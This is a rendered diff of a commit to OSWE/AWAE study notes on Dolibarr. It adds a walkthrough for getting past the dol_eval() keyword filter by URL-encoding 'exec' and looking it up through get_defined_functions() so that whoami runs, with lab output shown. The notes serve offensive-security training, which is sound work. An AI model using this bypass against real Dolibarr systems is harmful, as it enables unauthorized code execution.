

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: Dolibarr/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Dolibarr/README.md
+++ b/Dolibarr/README.md
@@ -287,3 +287,27 @@ php >
 However, we can't use the function name (`exec`) since the `dol_eval()` function blocks those keywords.
 
 Since direct use of blocked function names (like `base64_decode()`) isn't allowed by `dol_eval()`, we need alternatives. Fortunately, PHP provides native support for other encoding schemes—such as URL-encoding—that aren't blocked, offering potential paths for bypass.
+
+Although PHP’s `urlencode()` doesn’t encode alphanumeric characters, URL-encoding can still represent them using tools like *Burp Suite Decoder*. For example, the word `"exec"` can be encoded as `%65%78%65%63`.
+```bash
+php > echo urldecode("%65%78%65%63");
+exec
+```
+
+Excellent. Now we should be able to chain together `urldecode()` and `array_search()` to find the index of `exec()` in the array returned by `get_defined_functions()`. We'll pass the `urldecode()` function call to `array_search()` as the needle and pass `get_defined_functions()` as the haystack. However, we want to access the `"internal"` array in the `get_defined_functions()` results.
+
+```php
+php > echo array_search(urldecode("%65%78%65%63"), get_defined_functions()["internal"]);
+550
+```
+
+Now that we can dynamically retrieve the index of `exec()`, we can build a complete payload that searches for the function and invokes it.
+```bash
+php > echo get_defined_functions()["internal"][array_search(urldecode("%65%78%65%63"), get_defined_functions()["internal"])]("whoami");
+student
+```
+We've verified that we can invoke an arbitrary function without specifying the function name. However, our payload uses square braces and percent signs.
+
+**REMINDER**: The value of the `$onlysimplestring` parameter controls which characters are allowed. We'll need to perform more analysis to find any calls to `dol_eval()` with the `$onlysimplestring` parameter set to anything other than `1` or `2`. We'll continue this analysis in the next Learning Unit.
+
+## Bypass Security Filter to Trigger Eval
````
